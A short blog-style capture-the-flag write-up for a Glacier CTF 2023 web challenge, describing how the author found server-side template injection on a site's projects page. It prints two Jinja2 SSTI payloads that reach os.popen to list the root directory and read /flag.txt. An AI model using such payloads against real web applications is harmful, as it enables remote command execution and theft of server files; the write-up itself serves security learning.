 ```yaml
---
author: pl4int3xt
layout: post
title: Glacier CTF 2023
date: '2023-11-25 10:44:23 +0300'
// cover: img/cover_images/46.png
description: "Glacier CTF 2023"
categories: [Capture The Flag]
---
```


> I just created my first website! You can even do some calculations! Don't forget to check out my other projects!
author: Chr0x6eOs

We open the website and there is nothing interesting and so we try to check out the other projects 

![img-description](/img/glacier-ctf-2023/1.png)

We are brought to this page and immediately what pops in my brain is SSTI

![img-description](/img/glacier-ctf-2023/2.png)

I try injecting something to see the changes and indeed the website has an SSTI

![img-description](/img/glacier-ctf-2023/3.png)

Next let's check what's in the / directory and we see the file flag.txt using the following payload

```python
{% raw %}{{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('cd / && ls')['read']()}}{% endraw %}
```


![img-description](/img/glacier-ctf-2023/4.png)

Next we create a payload to read the flag.txt file

```python
{% raw %}{{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('cat /flag.txt')['read']()}}{% endraw %}
```

![img-description](/img/glacier-ctf-2023/5.png)

